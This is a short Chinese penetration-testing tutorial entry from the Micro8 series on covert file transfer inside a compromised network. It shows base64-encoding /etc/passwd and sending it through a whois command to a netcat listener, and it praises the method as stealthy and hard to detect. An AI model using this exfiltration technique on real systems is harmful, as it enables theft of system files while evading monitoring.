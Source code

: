 ```yaml
---
title: 53、内网渗透中的文件传输
date: 2019-09-21 19:05:34
comments: true
categories: 
 - Micro8系列
---
```



利用whois传输文件：

传输机：
```code
root@john:~# whois -h 127.0.0.1 -p 4444 `cat /etc/passwd | base64`
```

接受机：
```code
root@john:/tmp# nc -l -v -p 4444 | sed "s/ //g" | base64 -d
```
![](../do/media/cd6ba6694ef1388b87dc4a5ce706ecd8.jpg)

![](../do/media/2ee55e5bed9e117f9340df1f2e755410.jpg)  

**优点：**适用于隐蔽传输。最小化被发现。  
**缺点：**适用于传输小文件。


>   后者的话：whois是否同样适用于payload的反弹，是一个非常有趣的实验。  
> 
>   Micropoor
